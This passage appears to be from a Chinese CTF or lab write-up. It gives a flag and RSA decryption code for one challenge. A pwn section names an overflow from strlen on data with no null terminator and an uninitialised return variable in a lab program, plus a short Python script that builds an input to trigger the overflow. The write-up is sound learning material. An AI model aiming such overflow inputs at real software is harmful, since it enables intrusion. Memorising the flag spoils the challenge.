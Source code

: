 于是翻译如下：

> 今晚伊森将抵达这里，并引诱他到警察局附近的废弃仓库，里斯雇佣的专业刺客将在那里消灭他。明天，她将前往仓库，成为第一个发现他尸体的人，并提供强有力的不在场证明。这些警察绝对无法逮捕她
>

## Challenge 2

flag: `AAA{Ace_Attorney_is_very_fun_Phoenix_Wright&Miles_Edgeworth}`


这是个非常简单的RSA题，RSA原理这里不再赘述，因为给定了 $ p $ 和 $ q $ ，所以直接上python脚本计算 $ \varphi(n)=(p-1)*(q-1) $ 和 $ d= $ 即可。

```python
p = 0x848...
q = 0xa0a...
n = p * q
varphi = (p-1) * (q-1)
e = 0x10001
c=0x39f...
d=0
def ext(a,b):
    if b==0:
        return (a,1,0)
    else:
        g,x,y=ext(b,a%b)
        return g,y,x-(a//b)*y
m=pow(c,ext(e,varphi)[1]%varphi,n)
print(int.to_bytes(m, (m.bit_length() + 7) // 8, 'big'))
```

<div style="page-break-after: always;"></div>

## Pwn

#### Task1

在program.c里，有这么几个bug：

1. Line28使用`strlen(tmp->data)`参与计算，而`strlen()`的计算方法是**直到空字符**，因此这里给入一个不以'\0'结尾的内容就可以在30行的时候overflow

2. Line44声明err但未初始化值，而在Line55为err唯一的赋值语句，这导致如果Line53的条件不满足，那么err将以未定义的值返回。

#### Task2

上面提到的两个bug可以通过输入无'\0'的data和尝试构造令`(written!=0 && written == pkt->size)`为1。为了构造无'\0'的data，使用python脚本注入。

```python
#!/usr/bin/env python3
#> This is pwn_lab0.py
import sys
import struct
pkt = struct.pack('<IIII', 0x100, 0, 0, 0) + b'\xFF' * (0x90) #0x90=size-16
sys.stdout.buffer.write(pkt[:16])
sys.stdout.buffer.write(pkt[16:])
```

